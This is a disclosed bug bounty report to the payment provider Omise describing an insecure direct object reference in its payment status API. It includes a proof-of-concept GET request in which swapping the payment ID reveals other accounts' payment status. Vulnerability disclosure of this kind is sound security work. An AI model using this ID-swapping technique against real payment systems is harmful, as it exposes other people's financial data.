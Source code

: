 # IDOR Payments Status

## Report Details
- **Report ID**: 1538669
- **URL**: https://hackerone.com/reports/1538669
- **State**: Closed
- **Severity**: low
- **Submitted**: 2022-04-12T10:58:59.676Z
- **Disclosed**: 2022-09-06T08:58:27.726Z

## Reporter
- **Username**: codeslayer1337
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: omise

## Vulnerability Information
## Summary:

Found in the payment status function, IDOR's weakness.
Where when doing the experiment managed to see the payment status of another account
The following is the POC of the experiments carried out.
## Steps To Reproduce:
1.GET /payments/paym_test_xxxx/status HTTP/2
Host: api.omise.co
Sec-Ch-Ua: " Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"
Sec-Ch-Ua-Mobile: ?0
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/100.0.4896.75 Safari/537.36
Sec-Ch-Ua-Platform: "macOS"
Accept: */*
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://api.omise.co/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9

2.changed the id of the payment on the part I replaced it with paym_test_xxxx

## Impact

The application does not validate the requested payment status value, whether it belongs to the account or not, so that attackers can see the payment status of other people's accounts,


Best regards,


Codeslayer137

## Attachments
- Screen_Shot_2022-04-12_at_17.58.25.png
